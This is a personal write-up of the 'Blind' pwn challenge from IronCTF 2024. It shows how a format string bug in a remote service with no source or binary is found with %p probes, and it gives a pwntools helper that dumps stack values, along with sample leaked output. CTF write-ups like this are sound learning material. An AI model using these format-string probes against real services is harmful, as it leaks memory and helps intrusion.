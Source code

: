 ```yaml
---
title: IronCTF 2024 - Blind
date: 2024-10-9
categories: [pwn, writeup]
tags: [ctf, writeup, ironctf, pwn]     # TAG names should always be lowercase
description: This is my Write-up for IronCTF 2024 - Blind
---
```


<center><h1>IronCTF 2024 - Blind</h1></center>

- **Category:** Pwn.  
- **Points:** 500
- **Solves:** 4  
- **Author:** Vigneswar  
  
   
This weekend, I participated in Iron CTF 2024. Unfortunately, due to last-minute personal issues, I couldn't dedicate much time to it. However, there were some great challenges, and as always, I focused on the PWN category. One challenge I couldn’t finish in time caught my interest, so I decided to complete it later. Here, I will explain how I solved it.    
  
## Description  
The challenge description says: "*Seriously?! Is blind pwn even possible? Only one way to find out :)*"  
This time we have neither code nor any files that we can decompile. We only have a host and a port to connect to. When we connect, we receive a prompt where we can write whatever we want in an infinite loop until some timeout ends the process.  
The objective is clear. As the name of the challenge suggests, we need to carry out a blind exploitation.  

## First Steps
My first step was to find the bug. The first thing that came to mind was to try to trigger a buffer overflow by entering a long string. However, it seems that this was not the case. Next, I checked for a potential format string vulnerability.  
```
➜  CTFs nc pwn.1nf1n1ty.team 32739
Its too dark here...
>>> %p.%p.%p.%p
0x7fffa8637bc0.0x3e8.0x7fb065a5d031.0x4
```
Bingo!!! The vulnerability exists! Knowing that the program is vulnerable to format strings, I created the following function to dump what’s on the stack to see if I could find something interesting.  
```py
def dump_format(start, end):
    p = remote(HOST, PORT)
    payload  = ''
    for i in range(start, end):
        payload += f'{i}=%{i}$p\n'    
    p.sendlineafter(b'>>> ', payload)
    print(p.recvuntil(b'>>> ').decode())
    p.close()
```
```
125=(nil)
126=(nil)
127=(nil)
128=(nil)
129=(nil)
130=(nil)
131=0x18d48647e059c200
132=0x400760
133=0x7fa6ed702c87
134=0x1
```